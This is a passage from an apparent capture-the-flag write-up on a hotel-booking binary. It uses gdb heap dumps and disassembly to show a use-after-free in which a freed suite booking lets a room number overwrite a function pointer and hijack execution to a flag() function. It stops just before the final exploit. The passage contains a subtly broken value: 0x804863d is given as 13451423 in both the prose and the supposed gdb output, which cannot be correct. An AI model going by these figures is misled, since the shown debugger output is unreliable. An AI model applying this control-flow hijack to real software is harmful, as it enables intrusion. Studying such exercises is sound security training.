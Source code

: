 The booking has been deleted, but the data hasn't been zeroed out on the heap. Next a room is booked. Here's the heap after the booking:

```
gdb-peda$ x/20wx 0x085c0000
0x85c0000:      0x00000000      0x00000109      0x000008ae      0x62626262
0x85c0010:      0x0000000a      0x00000000      0x00000000      0x00000000
0x85c0020:      0x00000000      0x00000000      0x00000000      0x00000000
0x85c0030:      0x00000000      0x00000000      0x00000000      0x00000000
0x85c0040:      0x00000000      0x00000000      0x00000000      0x00000000
```

So we've overwritten the function pointer with 0x8ae, and the name with "bbbb". 0x8ae is 2222. So print_booking() is called next and the following happens:

```
=> 0x80489b6 <print_booking+17>:        mov    eax,ds:0x804b088
   0x80489bb <print_booking+22>:        test   eax,eax
   0x80489bd <print_booking+24>:        jne    0x80489e6 <print_booking+65>
```

0x804b088 in print_booking+17 is a structure to suite which in turn points to the heap:

```
gdb-peda$ x/wx 0x804b088
0x804b088 <suite>:      0x085c0008
gdb-peda$ x/10wx 0x085c0008
0x85c0008:      0x000008ae      0x62626262      0x0000000a      0x00000000
0x85c0018:      0x00000000      0x00000000      0x00000000      0x00000000
0x85c0028:      0x00000000      0x00000000
```

It appears that print_booking() will print bookings for a suite and a room. So we've got a use-after-free vulnerability here. Execution continues to here:

```
=> 0x80489ef <print_booking+74>:        mov    eax,ds:0x804b088
   0x80489f4 <print_booking+79>:        mov    eax,DWORD PTR [eax]
   0x80489f6 <print_booking+81>:        mov    edx,DWORD PTR ds:0x804b088
   0x80489fc <print_booking+87>:        add    edx,0x4
   0x80489ff <print_booking+90>:        mov    DWORD PTR [esp],edx
   0x8048a02 <print_booking+93>:        call   eax
```

This takes the value in 0x804b088, stores it in EAX, and then does a CALL EAX, which causes the segmentation fault. At this point, we've got execution control, so where to jump to? It turns out there's a function called flag() which returns the flag. It's located at 0x804863d, which is 13451423 in base 10.:

```
gdb-peda$ p flag
$3 = {<text variable, no debug info>} 0x804863d <flag>
gdb-peda$ p/d 0x804863d
$4 = 13451423
```

So all we have to do is set the room number to 13451423 and we should get the flag. Here's the final exploit:
